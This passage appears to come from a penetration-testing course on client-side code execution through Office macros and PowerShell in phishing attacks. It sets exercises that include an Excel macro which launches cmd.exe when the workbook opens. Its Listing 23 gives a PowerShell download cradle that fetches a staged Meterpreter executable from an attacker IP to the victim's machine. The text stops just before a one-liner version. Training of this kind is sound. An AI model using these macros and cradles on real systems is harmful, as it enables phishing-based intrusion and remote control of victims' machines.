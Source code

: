 1. Experiment with VBA programming basics by creating a small macro that prints the current username and computer name 5 times using the _Environ$_ function.
2. Create an Excel macro that runs when opening an Excel spreadsheet and executes cmd.exe using _Workbook\_Open_.[15](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_70-15)

### 3.2.3. Let PowerShell Help Us

So far, we have focused on Microsoft Office and discussed the very basic mechanics of VBA macros. Next, we'll discuss how we can use the extremely powerful and flexible PowerShell environment together with phishing attacks using Word or Excel documents.

As discussed in the previous section, VBA is a compiled language that makes use of types. On the other hand, PowerShell is compiled and executed on the fly through the .NET framework, generally does not use types and offers more flexibility.

To declare a variable in PowerShell, we simply use the dollar sign ($) character. PowerShell control logic such as branching statements and loops follow similar syntax as most other scripting languages. The biggest syntactical difference is in comparisons. PowerShell does not use the typical _==_ or _!=_ syntax but instead uses _-eq_, _-ne_, and similar.[1](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-1)

Since PowerShell has access to the .NET framework, we can easily implement specialized techniques such as download cradles to download content (like second stage payloads) from external web servers. The most commonly used variant is the _Net.WebClient_ class.[2](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-2) By instantiating an object from this class, we can call the _DownloadFile_[3](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_71-3) method to download any file from a web server to the victim.

In the following example, we'll show how to invoke the _DownloadFile_ method. We'll start by assembling a full script and then reduce it to a single one-liner.

_DownloadFile_ takes two arguments: the URL of the file to be downloaded and the output filename. The entire download procedure can be written in just four lines of PowerShell, as shown in Listing 23.

```
$url = "http://192.168.119.120/msfstaged.exe"
$out = "msfstaged.exe"
$wc = New-Object Net.WebClient
$wc.DownloadFile($url, $out)
```

> Listing 23 - PowerShell code to download Meterpreter executable

First, we created a variable for the file we want to download, then a variable for the name of the local file. Next, we instantiated the _Net.WebClient_ class to create a download cradle from which we then invoke the _DownloadFile_ method to download the file. In this case, we used the same staged Meterpreter executable we created earlier.

Alternatively, the four lines can be compressed into a single one-liner:
